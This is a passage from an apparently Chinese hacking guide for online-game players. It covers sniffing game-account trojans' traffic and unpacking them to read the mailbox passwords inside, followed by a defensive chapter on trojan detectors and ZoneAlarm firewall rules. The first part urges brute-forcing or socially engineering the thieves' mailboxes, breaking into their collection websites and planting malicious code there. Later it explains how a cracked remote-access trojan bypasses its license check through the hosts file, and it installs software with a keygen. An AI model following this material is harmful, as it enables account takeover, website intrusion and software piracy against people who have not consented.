以上是我们用软件直接嗅探网游的账号和密码，这种方法的应用太窄了，除非你能把加密的数据还原。相对于这种嗅探我更喜欢从盗号者手中窃取果实，运气好的话可是大丰收。我们通过嗅探或分析木马，可能得到盗号者的邮箱或收信网站。大多数时候盗号者设置木马时都会使用两个邮箱，这时我们只能得到发信邮箱的密码，接下来只能利用社会工程学和暴力破解搞定那个收信邮箱，失败的话就把发信邮箱的密码改了，惩罚一下盗号者，嘿嘿。如果得到的是收信网站，我们可以入侵网站找到账号数据，还可以通过收信程序写入挂马代码，进行跨站攻击。说的这么热闹，还是来实际演练一下给大家看看。

我用到的嗅探工具是 X-Sniff，它可以捕获局域网内 FTP/SMTP/POP3/HTTP 协议密码。我配置一个盗号木马，在命令行下执行：`xsniff -pass`，然后运行木马再登录，不一会在命令提示符下就捕捉到了发件邮箱的密码和收件邮箱（图 6.5）。

还有一种使用网站收信的方式，再使用这个嗅探器就不好用了，我使用 X-Sniff 嗅探到的数据如图 6.6 所示。由于受到 X-Sniff 嗅探规则的限制，我们无法得到木马的收信网址。那我们只有换一款功能全面的嗅探器——咆哮监视器。这个软件不是绿色软件，需要安装到我们的操作系统中。启动软件后，提示是否自动修改分辨率到 1024×768 以显示全部界面，因为软件不能调节窗口的大小（图 6.7）。

在使用前先设置好我们所要抓包的类型，要是所有都抓不但浪费时间，而且我们看起来还费劲。首先我们确定所抓包的类型：木马是从本机发送数据，所以我们在 IP 包方向及 IP 过滤中选择本机发出的 IP 包；木马通过访问网页文件，把网游账号的数据传输给指定的网页，所以在常用服务或端口过滤中我们选择常用服务的 HTTP（网页浏览）；浏览网页是使用 TCP 端口，所以在协议过滤中选择 TCP；所要捕获的 IP 包数目填 10000，默认是 1000，但在测试过程中捕捉不了几个包就停止了；其他项默认就可以，设置完成后点击确定（图 6.8）。

图 6.8

登录后开始抓包，图 6.9 为木马发送的数据。

经过设置规则后再嗅探，很容易地就抓到我们想要的数据包。我们现在已经得到了网游木马的收信地址，接下来就是自由发挥了。

图 6.9

其实想得到木马服务端中的重要信息不是只有嗅探一条路可以走，还可以直接用记事本或 WinHex 打开木马服务端，有时邮箱等信息会以明文的方式保存在里面。用十六进制编辑软件 WinHex 打开要查看的木马（这里以前面讲过的红蜘蛛键盘记录为例），打开搜索菜单，选择查找文本（图 6.10）。我们选择查找的字符串为“com”，点击确定，发现不是我们想要的数据，按 F3 继续查找（图 6.11）。在第二处找到了我们想要的发信邮箱（图 6.12）。

## 图 6.10


## 图 6.11


## 图 6.12


## 图 6.14


## 图 6.13


这种方法只适用于没有把发信邮箱或网址加密的木马，而且我们在查看木马前还要把木马脱壳，不然有时还是看不到关键信息。比如有一款梦幻西游木马，他生成的服务端是经过 FSG 2.0 加过壳（图6.13），我们使用专门脱 FSG 2.0 壳的工具把服务端的壳脱掉（图6.14），再用 PEiD 查壳，已经显示是用 C++ 编写的（图6.15）。


图6.15


图6.16

现在用 WinHex 打开脱壳后的服务端，我们已经能查找到发件邮箱的密码（图6.16）。

> 阿黑：“阿菜，你要记住，嗅探只能应用于局域网环境下，比如网吧中、校园网、公司内部网等，而在 Internet 上是不能使用的！”
>
> 阿菜：“OK，我明白了！”

## 第七章 打造我们的网络之“盾”

阿菜：“哇，想不到盗个号居然还有这么多的学问，这么多种的方法，也难怪我的魔兽号会被盗了。那我以后要如何防范才能不让我的号再被偷了呢？”

阿黑：“其实呀，网络上有许多非常好的工具，我们只要能熟练地使用，再经过合理的配置，就完全可以打造出我们无敌的网游之‘盾’的！”

### 7.1 玄铁盾——游戏木马检测大师

相传玄铁是女娲娘娘补天时候锻炼的铁，用它铸造而成的盾能防御所有攻击。游戏木马检测大师号称可以显示当前 95% 的游戏木马的钩子，100% 捕捉到游戏木马的发信信息，可以称得上是玄铁盾。这个软件有四大功能：钩子列表、自动运行、网络钓鱼和发信检测，下面我来一一介绍。

### 1、钩子列表

钩子的概念我在第二章就已经告诉大家了，不明白的朋友可以翻翻前边的内容。下面是钩子类型及对应功能。

- **WH_MSGFILTER**：监视菜单、滚动条、消息框的消息，以及传递到通过安装了 Hook 子程的应用程序建立的对话框的消息。
- **WH_SYSMSGFILTER**：监视菜单、滚动条、消息框的消息，以及所有应用程序建立的对话框的消息。
- **WH_JOURNALRECORD**：监视和记录输入事件。一般可以使用这个 Hook 记录连续的鼠标和键盘事件，然后通过使 **WH_JOURNALPLAYBACK** Hook 来回放。
- **WH_JOURNALPLAYBACK**：使应用程序可以插入消息到系统消息队列；可以使用这个 Hook 回放通过使用 **WH_JOURNALRECORD** Hook 记录下来的连续的鼠标和键盘事件。
- **WH_KEYBOARD**：监视键盘输入。
- **WH_GETMESSAGE**：监视从 GetMessage 或 PeekMessage 函数返回的消息。可以通过它监视鼠标和键盘输入，以及其他发送到消息队列中的消息。
- **WH_CALLWNDPROC、WH_CALLWNDPROCRET**：监视发送到窗口过程的消息。系统在消息发送到接收窗口过程之前调用 **WH_CALLWNDPROC Hook** 子程，并且在窗口过程处理完消息之后调用 **WH_CALLWNDPROCRET Hook** 子程。
- **WH_CBT**：在以下事件之前，系统都会调用 **WH_CBT Hook** 子程，这些事件包括：
  1. 激活、建立、销毁、最小化、最大化、移动、改变尺寸等窗口事件；
  2. 完成系统指令；
  3. 来自系统消息队列中的移动鼠标、键盘事件；
  4. 设置输入焦点事件；
  5. 同步系统消息队列事件。  
     Hook 子程的返回值确定系统是否允许或者防止这些操作中的一个。
- **WH_MOUSE**：监视输入到消息队列中的鼠标消息。
- **WH_HARDWARE**：当应用程序的前台线程处于空闲状态时，可以使用 **WH_FOREGROUNDIDLE Hook** 执行低优先级的任务。
- **WH_DEBUG**：在系统调用系统中与其他 Hook 关联的 Hook 子程之前，系统会调用 **WH_DEBUG Hook** 子程。
- **WH_SHELL**：外壳应用程序可以使用 **WH_SHELL Hook** 去接收重要的通知。
- **WH_FOREGROUNDIDLE**：当应用程序的前台线程处于空闲状态时，可以使用 **WH_FOREGROUNDIDLE Hook** 执行低优先级的任务。
- **WH_KEYBOARD_LL**：监视输入到线程消息队列中的键盘消息。
- **WH_MOUSE_LL**：监视输入到线程消息队列中的鼠标消息。

打开游戏木马检测大师后，选择钩子列表。其中那个被标记出来的 **WH_JOURNALRECORD**（输入消息记录钩子）就是阿拉 QQ 大盗木马的钩子。像这种可疑的钩子程序都会使用特殊颜色标示出来，右键单击那个钩子会出现如图 7.1 所示的菜单，建议先定位进程或模块，把它做个备份再删除。


图 7.1

### 2、自动运行

许多木马会开机自动运行，在这里看见可疑的启动项就先取消它，如果不确定的话，到百度或 Google 搜索一下，就可以找到这些程序详细的资料了（图7.2）。


图 7.2

### 3、网络钓鱼

这个功能是显示 Host 文件的内容，文件记录了哪个 IP 对应哪个域名。有的病毒喜欢修改这个文件，把常见的反病毒网站对应到有病毒的网站上。破解一些软件的网络验证，也要修改这个文件，使用过灰鸽子破解版的朋友也许还记得破解中就修改了这个文件，把验证网站改成自己的电脑，再在自己的电脑上开放网站服务，让软件访问我们做好的网站，这样就能绕过验证，生成服务端了。图 7.3 就是我自己加的一个网站，在界面中还可以添加或删除（图7.4、7.5）。


图 7.3


图 7.4  
图 7.5

### 4、发信检测

这个功能可以 100% 截住网游木马所发出的信息，因为一般网游木马要么通过 SMTP 发信，要么通过 Web 发信，这些都是要传送数据的，而游戏木马检测大师正是捕获网络数据，除非网游木马把账号信息保存在本地，不往外发送。我们在检查钩子列表时如果没有发现可疑的地方，可以再使用这个功能进行检测，这样就能做到万无一失。

在捕捉数据前要选择好网卡适配器，首先我们要清楚我们的网络数据是从哪块网卡上传输的。


图7.6

比如我在局域网，只有一块网卡，我选择好后点击网卡信息（图7.6），上面显示的是我的 IP 地址，我的网络数据都是通过这块网卡进行传输的。你要是有多块网卡，就选择连接 Internet 的那块网卡。我们再点选“只捕获 SMTP 发信端口（25）和 Web 发信端口（80）”，木马的常见发信方式就这两种。刚才我安装了阿拉 QQ 大盗，我用它演示一下，看看我们捕捉到了什么数据（图7.7）。


“MAIL FROM”处是发信的邮箱，“RCPT TO”处是收件箱，右下方框内是发信内容，一个数据都没落下。从图7.7中我们能够发现我们捕捉的数据不只是我自己电脑同外部通信的数据，还有局域网其他电脑的数据，这说明该软件把网卡设置成混杂模式进行监听，可以捕捉到整个局域网的传输数据，可不要做坏事啊。领略到了这个软件的强大功能了吧，不过使用这个软件需要多多动手，仔细观察。不喜欢动手的朋友不要急，我们还可以安装防火墙、杀毒软件，下面我介绍的这个传说之盾就能查杀网游木马。

图7.7

### 7.2 麒麟盾——木马克星

看名字我们就知道这个软件是专门对付木马的，因为是国产软件，所以对付起国内的木马更是强悍。我们从光盘中下载木马克星的压缩包，把里边的文件解压到硬盘中，图7.8为目录下的文件和文件夹。


我们先执行那两个注册表文件，把它们导入注册表后再打开 Iparmor 目录下木马克星，你会发现程序已经注册了（图7.9）。更新病毒库不是在软件里直接更新的，而是需要使用木马克星升级器，打开木马克星升级器 V1.73 文件夹下的 Iparmor Updater.exe 文件（图7.10）。


在升级前要关闭木马克星，点击升级后如果程序没有找到木马克星所在目录，我们要在如图7.11的对话框内输入木马克星的路径，然后会再弹出一个对话框，告诉我们如图7.12中的信息，点击确定后程序开始下载更新。更新完毕后会询问我们是否启动木马克星（图7.13），别忙点确定，我们还要使用一下这个升级程序的工具箱。点击工具箱，出现了五个工具（图7.14）。第一个工具是检查新版本，这个是检查升级程序的新版本（图7.15）。第二个工具是修复木马克星扫描硬盘时出错的问题，这里也会提示你输入木马克星的路径。第三个工具是修复右键菜单中“使用木马克星扫描”失效的问题。第四个工具是删除使用木马克星升级器升级时备份的文件，建议在升级后能正常运行木马克星时再删除。第五个工具是设置代理服务器（图7.16）。


现在我们可以打开木马克星了，程序启动时会自动扫描内存，图7.17中木马克星扫描到我浏览器的三个插件。先设置一下我们的木马克星，点击设置，弹出设置框（图7.18）。公共选项里选上随系统启动，不要选择自动更新，每次更新使用那个升级器。


选项中的密码保护需要到木马克星网站上去下载专门的密码保护程序，安装时会检测有没有安装过密码保护插件（图7.19），安装时木马克星还会有如图7.20的提示，这是因为木马克星监视系统中所有的新建文件。重新启动软件，就可以看到如下文字：密码保护功能启动成功，所有密码都被动态伪装为 iparmor，一旦发现密码盗窃，木马克星将自动向您报警。


图 7.21

我在下载这个插件时，看到软件主页上还有一段更新描述：“增加了进程入侵监视功能，任何木马（包括鸽子）企图进入任何游戏（包括魔兽世界、传奇）的内存必然引起 2303 版本报警，此版本适合拥有 1 万元以上游戏装备以及网络银行业务频繁电脑使用。”知道木马克星的强大了吧！


图 7.22

扫描选项中是设置扫描的文件类型，有的木马会把图片和木马程序合并成 SCR 屏保文件，所以把 SCR 文件类型和启动项添加上，别的选项默认就可以（图7.21）。


图 7.23

```text
Process Name: D:\Tencent\TM\TM001\TM.exe
Remote Ip: 61.51.140.58
Remote Port: 7298
In/Out: In
...
Process Name: D:\firefox\firefox.exe
Remote Ip: 202.108.22.5
Remote Port: 80
In/Out: In
HTTP/1.1 200 OK
Date: Sat, 08 Apr 2006 02:17:27 GMT
Server: Apache/1.3.27
Status: 0
Connection: close
Content-Type: text/html
Content-Encoding: gzip
Content-Length: 5894
```

图 7.24

软件的设置完成了，平时它就可以在后台保护我们不受木马的侵害了。木马克星还附带了一些常用工具（图7.22），监视网络的功能和游戏木马检测大师中发信检测的作用差不多，只不过木马克星只能监听自己机器的网络数据传输；它的操作和防火墙类似，当有程序向外访问时会弹出对话框，询问是否通行、是否记录（图7.23、7.24）。玄铁盾帮助我们检查木马，麒麟盾帮助我们消灭木马，如果还有漏网之鱼，我们就要用寒冰盾来对付它了。

### 7.3 寒冰盾——ZoneAlarm

ZoneAlarm 号称是世界顶级防火墙，对我们这些小菜最大的好处就是它的使用非常简单，很容易上手，我今天就结合怎么抵御网游木马来介绍 ZoneAlarm。

从光盘中把 ZoneAlarm 的压缩包下载到我们的硬盘中，压缩包中有 ZoneAlarm Pro v6.0 的安装文件、汉化补丁和注册机，我们先安装汉化补丁，记住我们安装的文件夹，待会儿把 ZoneAlarm 也要安装在这里。现在安装 ZoneAlarm，开始会弹出如图7.25的对话框，这里一定要填写一个 E-mail 地址才能进行下一步，下面两个选项的意思是否注册和是否接收软件的最新消息，选不选都可以，我们进行下一步，安装的路径一定要选在汉化补丁的安装文件夹。


安装完成后出现图7.26的对话框，第一项为你的网络连接方式，我使用的是 ADSL，所以我选择 DSL；第二项是我们的电脑类型，有家用电脑、工作电脑和笔记本等；第三项是询问我们是否连接其他电脑，局域网用户根据自身情况选择家庭或公司；第四项为是否安装了杀毒软件；这些选完后点击 Finish，然后就会问我们是否启动 ZoneAlarm，我们一开始已经安装了汉化补丁，可以放心地启动了。


第一次使用软件时会让我们填写许可证，也就是注册码；在图7.27中点击输入许可证号码。运行压缩包中的注册机，选择 ZoneAlarm Pro 的注册码（图7.28）。我们把注册码填写到如图7.29的窗口内，点击完成，提示许可证安装成功。


图 7.27


图 7.28

注册完软件后，我们继续配置向导。配置向导有两大内容：安全配置和新手教学。首先软件会询问我们是否把我们设置策略在 ZoneAlarm 中共享，这个当然了，共享是一种可贵的精神（图7.30）。下一步是询问是否开启智能防护顾问，建议大家选择自动，ZoneAlarm 会自动对程序进行设置，自己设置毕竟想得不周到（图7.31）。下一步为是否启动 Zone 的反间谍工具（图7.32），现在网上的间谍软件满天飞，我们还是小心的好。下一步是隐私设置，隐私控制可以防广告，缓存清理对于喜欢脱机浏览的朋友就不要选了（图7.33）。


图 7.29


图 7.30

以上选项都设置完成后，ZoneAlarm 会提示重启计算机，按照提示重启后，ZoneAlarm 提示可以观看教学视频，有兴趣的朋友可以下载回来观看。


我们直接点击完成后，ZoneAlarm 提示发现新网络，因为我是在局域网中，所以选择允许进入信任区域（图7.34）。


点击确定后，我们就能看到 ZoneAlarm 的主界面了。这时 ZoneAlarm 的安全警报就会响起，让我们设置一些正在访问网络的程序是否允许。这里和大多数防火墙的设置一样，当有陌生的程序访问网络时，防火墙就会拦截并提示我们。ZoneAlarm Pro 的界面如图 7.35：上面的红绿条表示出入站的信息量，点击 STOP 就会断开网络；中间是我们主机的所有网络类型；右边是访问 Internet 的应用程序。程序图标在闪，说明它正在访问；点击一下那个黄色的锁，就会把我们通向 Internet 的大门锁上。

图 7.35

#### 防火墙设置

在常规界面中点击“高级”，如图 7.36。我们把“启用 ARP 保护”和“锁定 hosts 文件”设置选定，能有效防止 ARP 欺骗攻击和 hosts 文件被篡改，其他选项默认。

“区域”选项中可以添加信任或屏蔽的 IP 或 IP 段。比如我是局域网用户，不想让某个 IP 访问我，就可以添加它的 IP 并选择屏蔽，这样它就不能访问我们了。

“高级”选项中可以自己添加防火墙规则，比如我们添加一个防止盗号木马从本机发送邮件的规则：

- 名称处填写“防止发送邮件”；
- 操作处选择“屏蔽”；
- 来源处点击“修改”，选择“我的电脑”；
- 协议处点击“修改”，选择“添加协议”，填写说明，目标端口选择 SMTP，点击确定（图 7.37）；
- 其他项默认，点击确定，规则就添加成功了（图 7.38）。

如果你嫌添加规则麻烦，邮件保护功能也可以防止发送邮件。

图 7.36  
图 7.37  
图 7.38

#### 反间谍

点击 SCAN NOW，程序会扫描机器中存在的间谍软件。点击高级设置，在这里可以设置自动扫描。我设置的是每星期二十点半扫描（图 7.39）。

图 7.39

#### 病毒监控

这个是监控你机器中的杀毒软件，提醒你病毒库的更新和即时监控的状况。建议关闭这个功能，它有时会和杀毒软件冲突，并且微软的安全中心已经有这个功能。

图 7.40

## 第七章：打造我们的网游之“盾”

#### 邮件保护

我来告诉大家从这里怎么防止木马发送邮件。点击“高级”，我们只要在图 7.40 中的红线处打勾，并在列表中添加可以发送的邮件地址。木马发送邮件时，除非是发送到列表中的地址，否则无法发送。这样做就能禁止系统随意发送邮件了。

#### 隐私保护

Cookie 控制等级选择中，把我们常去的网站添加到站点列表中。活动代码建议关闭，禁止了这些对象会造成有些网页不能正常访问。缓存清理的选项很多，我们可以根据自己的情况选择。

#### 程序控制

这里是设置应用程序访问 Internet 和作为服务运行权限的地方。我们可以禁止一些“危险”进程访问 Internet，比如木马经常插入的 explorer.exe 和 iexplore.exe（图 7.41）。浏览网页可以使用火狐浏览器，这样还能减少中网页木马的几率。

#### ID 锁

这个功能可是我们网游玩家的福音。它会保护我们放在保险箱中信息的安全，不会被木马发送出去。即使中了盗号木马，也不怕我们的信息外露。

我们把级别选为“高”，在“我的保险箱”中添加你要保存的信息，比如我把我的密码加进去，点击“添加”。在如图 7.42 的添加框中，填写说明，类别选择 Password，再输入密码，点击确定。我们还可以把用户名、密保邮箱都添加进去，再在信任站点中添加可以输入这些信息的站点，免得我们注册帐号时受阻。

#### 警报／日志

通过查看日志，根据实际情况改进软件的设置。比如有个 IP 总是攻击我们，就可以在防火墙中把它屏蔽掉。

“装备了以上那三个传说之盾后，我们可就基本上是百毒不侵了。不过我们的安全意识一定要加强，要定期给自己的电脑安装漏洞补丁文件。另外，我们在使用 QQ 和 MSN 聊天时，一定要小心，对方发过来的可执行文件和图片文件最好使用杀病毒软件检查后再打开，以防有木马。在上网浏览网页时，对于一些小的不能信任的网站，最好别去。否则我们以上的努力就有可能会成为中看不中用的马其诺防线。”阿黑最后说道。

“听阿黑一席话，胜读十年书！好了，这么多的木马和攻击的方法，我得赶紧回去试试了，狗儿拜儿！”

“阿菜，别忘了，你一定得给自己的电脑设置一个强大的密码呀。”

“哎呀，这个还用你说，你当我是白痴了。”阿菜说完，一溜烟地就跑得没影了！